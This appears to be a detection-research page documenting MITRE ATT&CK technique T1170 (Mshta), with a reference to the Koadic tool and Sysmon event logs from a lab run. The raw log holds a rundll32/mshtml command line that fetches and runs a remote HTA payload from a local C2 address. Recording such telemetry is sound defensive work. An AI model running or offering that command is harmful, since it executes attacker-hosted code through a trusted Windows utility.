



<h1> Tactic: Defense Evasion, Execution
Technique: Mshta (T1170)  </h1>
<h2> From MITRE ATT&CK </h2>

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension .hta. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.                   Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code.

<h2> Test </h2>

Name  | Description                                       | Reference
----- | --------------------------------------------------| ------------
Koadic| Koadic can use MSHTA to serve additional payloads | [Link to Koadic](https://github.com/zerosum0x0/koadic) 





<h2> Analysis </h2>

## Sysmon 

EventID | TaskCategory   | User  | SysmonVersion | Image                            |  Commandline 
------- | ---------------|-------|---------------|----------------------------------| ------------
1       | ProcessCreate  |SYSTEM | 9.1.0         | C:\Windows\System32\rundll32.exe | rundll32.exe hXXp://10.0.0.120:9999/test?FQB8ZFV7H0=d34bf69da4aa4518b984ca90256e2ed6;8PEBJG06VB=;\..\..\..\mshtml,RunHTMLApplication

### Raw Log 

```
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
<System>
  <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385F-C22A-43E0-BF4C-06F5698FFBD9}" /> 
  <EventID>1</EventID> 
  <Version>5</Version> 
  <Level>4</Level> 
  <Task>1</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2019-05-07T20:42:20.877679600Z" /> 
  <EventRecordID>160</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="3044" ThreadID="528" /> 
  <Channel>Microsoft-Windows-Sysmon/Operational</Channel> 
  <Computer>virtualbox-PC</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData>
  <Data Name="RuleName" /> 
  <Data Name="UtcTime">2019-05-07 20:42:20.877</Data> 
  <Data Name="ProcessGuid">{63B45BB3-EDAC-5CD1-0000-001005E70E00}</Data> 
  <Data Name="ProcessId">2496</Data> 
  <Data Name="Image">C:\Windows\System32\rundll32.exe</Data> 
  <Data Name="FileVersion">6.1.7600.16385 (win7_rtm.090713-1255)</Data> 
  <Data Name="Description">Windows host process (Rundll32)</Data> 
  <Data Name="Product">Microsoft® Windows® Operating System</Data> 
  <Data Name="Company">Microsoft Corporation</Data> 
  <Data Name="CommandLine">rundll32.exe http://10.0.0.120:9999/test?FQB8ZFV7H0=d34bf69da4aa4518b984ca90256e2ed6;8PEBJG06VB=;\..\..\..\mshtml,RunHTMLApplication</Data> 
  <Data Name="CurrentDirectory">C:\Windows\system32\</Data> 
  <Data Name="User">virtualbox-PC\virtualbox</Data> 
  <Data Name="LogonGuid">{63B45BB3-E8E6-5CD1-0000-002053EC0000}</Data> 
  <Data Name="LogonId">0xec53</Data> 
  <Data Name="TerminalSessionId">1</Data> 
  <Data Name="IntegrityLevel">High</Data> 
  <Data Name="Hashes">SHA1=963B55ACC8C566876364716D5AAFA353995812A8</Data> 
  <Data Name="ParentProcessGuid">{63B45BB3-EDAC-5CD1-0000-001085E20E00}</Data> 
  <Data Name="ParentProcessId">2724</Data> 
  <Data Name="ParentImage">C:\Windows\System32\wbem\WmiPrvSE.exe</Data> 
  <Data Name="ParentCommandLine">C:\Windows\system32\wbem\wmiprvse.exe -secured -Embedding</Data> 
  </EventData>
  </Event>
```
